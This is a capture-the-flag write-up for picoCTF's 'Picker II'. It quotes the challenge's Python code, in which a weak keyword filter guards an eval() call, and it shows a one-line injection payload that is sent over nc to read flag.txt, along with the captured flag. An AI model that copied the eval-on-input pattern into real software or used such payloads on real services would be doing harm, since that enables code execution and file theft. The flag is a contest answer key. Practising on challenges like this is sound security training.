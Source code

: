 #Challenge: Picker II

#Objective
Figure out how the python program works to get the flag

#Solution Steps
1. Download all necessary files
    wget https://artifacts.picoctf.net/c/523/picker-II.py
2. Checked contents of directory
    ls
3. Found picker-II.py file, examined contents of file
    nano picker-II.py
4. Found functions related to flag inside file
    def win():
        # This line will not work locally unless you create your own 'flag.txt' in
        #   the same directory as this script
        flag = open('flag.txt', 'r').read()
        #flag = flag[:-1]
        flag = flag.strip()
        str_flag = ''
        for c in flag:
            str_flag += str(hex(ord(c))) + ' '
        print(str_flag)
  
    def filter(user_input):
    if 'win' in user_input:
        return False
    return True

    while(True):
    try:
        user_input = input('==> ')
        if( filter(user_input) ):
        eval(user_input + '()')
        else:
        print('Illegal input')
    except Exception as e:
        print(e)
        break
5. win function gives flag but is filtered out in filter function. However, user input function evaluates all inputs and adds '()'; tried reading flag.txt
    nc saturn.picoctf.net 50649

    open('flag.txt', 'r').read
6. Program executes with no error but no output is shown, adjusted command to show output
    print(open('flag.txt', 'r').read())#
7. Extracted flag from output
    flag: picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_95d44590}

#Learned
How to exploit input evaluation functions that don't have proper input validation
